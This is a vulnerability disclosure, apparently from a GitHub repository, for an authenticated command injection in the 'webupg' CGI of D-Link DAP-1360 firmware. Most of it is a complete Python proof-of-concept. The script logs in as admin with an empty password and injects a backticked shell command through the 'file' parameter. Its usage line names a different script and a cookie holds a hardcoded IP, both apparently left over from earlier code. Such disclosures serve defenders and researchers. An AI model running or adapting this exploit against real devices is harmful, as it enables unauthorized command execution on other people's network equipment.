 # D-Link DAP-1360 Authorization Remote Command Execution
An authorization command injection vulnerability about DAP-1360

</br>**Exploit Author:** KeenSight Lab.Tgp (topsuchow@gmail.com)
</br>**Vender:** D-Link

## /cgi-bin/webupg
**Firmware version:** 
DAP-1360(F1): <=v6.10
</br>......
<br/>**Hardware Link:**https://downloads.d-link.co.za/DAP/dap1360/Firmware/Hardware%20Version%20F/
## The detail of vulnerability
In the "webupg" binary, because of the lack of parameter verification, attackers can use "file" parameters to execute arbitrary system commands after obtaining authorization.

#### Vulnerability trigger function
`UPGCGI_CreateDir`
![image](https://github.com/tgp-top/DAP-1360/blob/2d09c23efafd8d3199b0a84d5b159f3cdbd26638/%E5%9B%BE%E7%89%87/1.png)

`UPGCGI_Delete`
![image](https://github.com/tgp-top/DAP-1360/blob/2d09c23efafd8d3199b0a84d5b159f3cdbd26638/%E5%9B%BE%E7%89%87/2.png)

`UPGCGI_ModifyMac`
![image](https://github.com/tgp-top/DAP-1360/blob/2d09c23efafd8d3199b0a84d5b159f3cdbd26638/%E5%9B%BE%E7%89%87/3.png)

`Burpsuite intercept`
![image](https://github.com/tgp-top/DAP-1360/blob/2d09c23efafd8d3199b0a84d5b159f3cdbd26638/%E5%9B%BE%E7%89%87/4.png)

## POC
<sup>
  
  
  
  #!/usr/bin/python
  # -*- coding: utf-8 -*-

  import requests, urllib3, sys, re
  import base64

  from urllib3.exceptions import ConnectTimeoutError
  urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
  from urllib.parse import urlencode
  import os
  import telnetlib

  proxy = {
          "http": "http://127.0.0.1:8080"
      }
  def login(phost):
    ipaddr=str(re.findall(r"(.+?):", phost))
    if len(ipaddr)==2:
      ipaddr=phost
    print (ipaddr)
    post_data = {
        "getpage": "html/index.html",
        "errorpage": "html/main.html",
        "var:menu": "setup",
      "var:page": "wizard",
      "var:login": "true",
      "obj-action": "auth",
      ":username": "admin",
      ":password": "",
      ":action": "login",
      ":sessionid": "3f412f91"
    }
    headers1 = {
        "Host": phost,
        "Content-Type": "application/x-www-form-urlencoded",
        "Referer": "http://" + phost + "/cgi-bin/webproc",
        "Connection": "close",
        "Origin": "http://" + phost,
        "Cookie": "sessionid=3f412f91; expires=Mon, 31-Jan-2050 16:00:00 GMT; auth=ok; Lan_IPAddress=" + ipaddr +"; langmanulset=yes; sys_UserName=admin; expires=Mon, 31-Jan-2050 16:00:00 GMT; language=zh_cn"
    }
    headers2 = {
        "Host": phost,
        "Content-Type": "application/x-www-form-urlencoded",
        "Referer": "https://" + phost + "/cgi-bin/webproc",
        "Connection": "close",
        "Origin": "https://" + phost,
        "Cookie": "sessionid=3f412f91; expires=Mon, 31-Jan-2050 16:00:00 GMT; auth=ok; Lan_IPAddress=" + ipaddr +"; langmanulset=yes; sys_UserName=admin; expires=Mon, 31-Jan-2050 16:00:00 GMT; language=zh_cn"
    }
    try:
      url1 = 'http://' + phost + '/cgi-bin/webproc'
      r1 = requests.post(url1, data=post_data, headers=headers1, allow_redirects=False,proxies=proxy, timeout=10)
      if r1.status_code==302:
        print ("Login success!")
      elif r1.text=="":
        exit(0)
    except Exception:
      try:
        url2 = 'https://' + phost + '/cgi-bin/webproc'
        r2 = requests.post(url2, data=post_data, headers=headers2,verify=False,allow_redirects=False,proxies=proxy,timeout=10)
        if r2.status_code==302:
          print ("Login success!")
        elif r2.text=="":
          exit(0)
      except Exception:
        print("ConnectTimeout")
        exit(0)


  def execCmd(phost):
    ipaddr=str(re.findall(r"(.+?):", phost))
    if len(ipaddr)==2:
      ipaddr=phost
    payload = "`busybox`"
    post_data = {
        "name": "createdir", 
      "file":  payload 
    }
    headers = {
          "Host": phost,
      "Cache-Control": "max-age=0",
      "Upgrade-Insecure-Requests": "1",
      "Origin": "http://" + phost,
      "Content-Type": "application/x-www-form-urlencoded",
      "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
      "Referer": "http://" + phost + "/cgi-bin/webupg",
      "Accept-Encoding": "gzip, deflate",
      "Accept-Language": "zh-CN,zh;q=0.9",
        "Cookie": "sessionid=3f412f91; expires=Mon, 31-Jan-2050 16:00:00 GMT; auth=ok; Lan_IPAddress=45.240.248.137; langmanulset=yes; sys_UserName=admin; language=en_us; expires=Mon, 31-Jan-2050 16:00:00 GMT",
      "Connection": "close"
                  }
    url = "http://" + phost + "/cgi-bin/webupg"
    r = requests.post(url, data=post_data, headers=headers,allow_redirects=False, proxies=proxy)
    string = r.status_code
    print (r.headers)


  def main():
    if (len(sys.argv) != 2):
      print("[*] Usage: ruckus151021.py <RHOST>")
      print("[*] <RHOST> -> Target IP")
      print("[*] Example: python {} 192.168.2.1")
      exit(0)

    phost = sys.argv[1]
    login(phost)
    execCmd(phost)

  if __name__ == "__main__":
      main()
  
  
  
</sup>
  
  
  
